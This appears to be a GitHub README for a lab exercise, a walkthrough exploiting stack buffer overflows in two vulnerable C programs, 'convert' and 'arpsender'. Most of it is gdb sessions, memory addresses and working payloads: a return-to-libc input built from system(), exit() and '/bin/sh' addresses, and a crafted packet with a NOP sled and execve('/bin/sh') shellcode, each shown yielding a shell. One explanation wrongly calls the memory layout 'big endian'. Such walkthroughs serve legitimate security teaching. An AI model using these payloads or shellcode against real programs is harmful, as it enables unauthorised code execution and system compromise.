 # buffer-overflow
exploit vulnerable c/c++ programms with buffer overflow attacks
___
#### `convert` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x0804869c <+0>:	push   %ebp
   .........  ....: ....   ....
   .........  ....: ....   ....
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary, but in this case this mechanism wasn't enabled.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x80485b0
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4` this line indicated that the Stack is Read-Write but not executable, so we have one defensive mechanism to bypass.

###### Determine the size of the buffer to override the instruction pointer `$eip`
This is the line which can be used for overflowing the `date` buffer:
```
strcpy(date, argv[2]);
```
Let's explore the memory!
```
$ gdb convert
(gdb) run 1 $(perl -e 'print "A"x744 . "B"x4 . "C"x4 . "D"x4')
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
    eax            0x0	0
    ecx            0xbfffef78	-1073746056
    edx            0xb7fd3360	-1208143008
    ebx            0x41414141	1094795585
    esp            0xbffff2c0	0xbffff2c0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x42424242	1111638594
    eip            0x44444444	0x44444444
    eflags         0x10296	[ PF AF SF IF RF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
```
So the size of the buffer to overwrite the `$eip` is 756.
###### Sketch memory layout and attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/convert_attact.png" width="500" height="360" />
###### Find the addresses needed for the attack
``` 
$ gdb convert
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7eadc30 <system>
```
**system() address**: `0xb7eadc30`
```
(gdb) find &system,+9999999,"/bin/sh"  
0xb7fae194
```
**'/bin/sh' address**: `0xb7fae194`
```
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ea1270 <exit>
```
**exit() address**: `0xb7ea1270`
###### Create your inputs according to the sketch and run the programm
```
$ ./convert 1 $(perl -e 'print "\x90"x752 .  "\x30\xdc\xea\xb7"  . "\x70\x12\xea\xb7" . "\x94\xe1\xfa\xb7"')
$ (unlocked shell)
```
___
#### `arpsender` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x08048793 <+0>:    	push   %ebp
   .........  ....:     ....   ....
   .........  ....:     ....   ....
   0x080488e6 <+339>:	call   0x80484c0 <__stack_chk_fail@plt>
   0x080488eb <+344>:	leave  
   0x080488ec <+345>:	ret
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary. So we have one defensive mechanism to bypass.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x8048550
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE  0x4` this line indicated that the Stack is Read-Write and executable, so this defensive mechanism is disabled.

###### Determine the strategy to overwrite the `$eip` pointer
This are the lines/variables that will be used to exploit the program:
```
memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
memcpy(hwaddr.hwtype, packet, 4);

```
Let's explore the memory!

```
(gdb) break print_address
(gdb) run packet.txt
(gdb) x/x &i
0xbffff454:	0x0804834c
(gdb) x/x &hwaddr.len
0xbffff458:	0xb7ee25d0
(gdb) x/x &hwaddr.addr
0xbffff459:	0xf3b7ee25
(gdb) x/x &hwaddr.hwtype
0xbffff4dc:	0x00000000
(gdb) x/x &hwaddr.prototype
0xbffff4e0:	0xbffff598
(gdb) x/x &hwaddr.oper
0xbffff4e4:	0xb7ff59c0
(gdb) x/x &hwaddr.protolen
0xbffff4e8:	0x00000065
(gdb) info frame
Stack level 0, frame at 0xbffff500:
 eip = 0x804864e in print_address (arpsender.c:24); saved eip 0x80488c5
 called by frame at 0xbffff5a0
 source language c.
 Arglist at 0xbffff4f8, args: packet=0x804a008 "\324ò\241\002"
 Locals at 0xbffff4f8, Previous frame's sp is 0xbffff500
 Saved registers:
  ebp at 0xbffff4f8, eip at 0xbffff4fc
```
###### Sketch memory layout
<img src="https://github.com/igavriil/buffer-overflow/blob/master/arpsender_sketch.png" width="300" height="440" />
###### Deeper understand of memory and attack plan
* The distance between `char hwaddr.addr[128]` and `char* hwaddr.hwtype` is `131 bytes`(due to big endian convention)  so we need `135 bytes` overflow on `hwaddr.addr[128]` to overwrite the `4 bytes` of the pointer.
* The `$eip` pointer is located at `0xbffff4fc` under gdb environment.

___
* Overflow `hwaddr.addr[128]` buffer with `135 bytes` having the last `4 bytes` store the address of `$eip` pointer. In other words make the pointer `hwaddr.hwtype` pointer to point at the `$eip`.
* Then using the expression `memcpy(hwaddr.hwtype, packet, 4);` we are writing at the `$eip` pointer. So the variable `packet` should start with an address that points to a location of the memory where the beggining of the shellcode is stored or (better) at a location where a preceding to the shellcode `NOP(\x90)` is stored. 

___
Let us recall some crusial code to determine the form of the input:
```
  hwaddr.len = (shsize_t) *(packet + ADDR_LENGTH_OFFSET);
  memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
  memcpy(hwaddr.hwtype, packet, 4);
```
* The number of bytes to be copied to `hwaddr.addr` from the `packet` is determined by the `hwaddr.len` variable. This variable is read from `*(packet + ADD_LENGTH_OFFSET) -> *(packet + 4)` so the 5th byte of the input `packet`.
So in the 5th byte of the input `packet`, the number `135` should be placed, or in HEX `\x87`.
* The bytes to be copied to `hwaddr.addr` from the packet are read from `packet + ADDR_OFFSET -> packet + 8` so we need to place our shell code from that place and after.

###### Sketch attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/arpsender_attack.png" width="650" height="200" />
###### Create your inputs according to the sketch and run the programm
```
perl -e 'print "\x69\xf4\xff\xbf\x87" ."\x90\x90\x90" . "\x90" x86 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"."\xfc\xf4\xff\xbf"' >packet.txt
```
```
$ ./arpsender packet.txt
...
*** stack smashing detected ***: ./arpsender terminated
...
```
Something has changed in the memory layout but we know that we are writing the canary value. Let's try to increment the addresses `16 bytes = 10(hex)` to pass the cannary and hopefully reach the `$eip`:
`0xbffff4fc -> 0xbffff50c`
`0xbffff469 -> 0xbffff479`
```
perl -e 'print "\x79\xf4\xff\xbf\x87" ."\x90\x90\x90" . "\x90" x86 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"."\x0c\xf5\xff\xbf"' >packet.txt
```
```
$ ./arpsender packet.txt
$ (unlocked shell)
```
